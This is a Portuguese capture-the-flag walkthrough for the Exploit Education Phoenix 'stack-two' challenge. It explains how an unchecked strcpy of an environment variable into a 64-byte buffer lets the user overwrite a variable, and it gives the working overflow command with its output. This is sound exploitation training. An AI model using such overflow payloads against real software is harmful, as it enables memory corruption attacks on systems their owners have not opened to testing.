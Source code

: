 # 🎯 Objetivo
Similar à anterior, a gente precisa mudar o valor da variavel changeme,
mas dessa vez ao inves de usar o input ou agrv, vamos usar env!

# ⚡ Explicação
Nesse desafio, o programa usa getenv("ExploitEducation") para ler uma
enviroment variable. 
### 🌳 Environment Variable (Variável do ambiente)
Essas variaveis são acessiveis para todos os programas
executando naquela seção. E normalmente contem preferencias como cores, o tipo de terminal, etcetc....

> Você pode checa-las usando: $ env

> Você pode definir uma até o resto da seção: $ export Nome=Valor

> Você pode definir uma somente para execução daquele programa: $ Nome=Valor ./stack-two

Para nós, não faz tanta diferença. O unico problema é que não podemos usar o Null Byte (0x00), pois ele é usado para indicar o final de uma string ASCII, portanto terminando nossa variavel precocemente.

Em seguida, o valor é copiado para um buffer[64] usando: strcpy(buffer, ptr). Com ptr sendo o valor da env 'ExploitEducation'.

A função strcpy, assim como gets, não checa se o valor é maior que o buffer, tornando o programa vulnerável... :(

Por ultimo, o programa checa se changeme == 0x0d0a090a.
> Levando em consideração que o sistema é LE: 0a 09 0a 0d

Mas pera ai, checando o manual ASCII, esses caracteres são usados para encerrar linha, não é uma letra do teclado! D:

Pois é, então vamos precisar usar os bytes diretamente. Esse é um dos casos que o python3 reclama e o python2 funciona!

```
Se você quer tentar resolver sozinhe, agora é a sua hora!

.
.
.
.

user@phoenix-amd64:/opt/phoenix/amd64$ ExploitEducation=$(python -c "print b'A'*64 + b'\x0a\x09\x0a\x0d'") ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Uhuuu, esse foi mais fácil :D

# 🔥 Solução
> $ ExploitEducation=$(python -c "print b'A'*64 + b'\x0a\x09\x0a\x0d'") ./stack-two
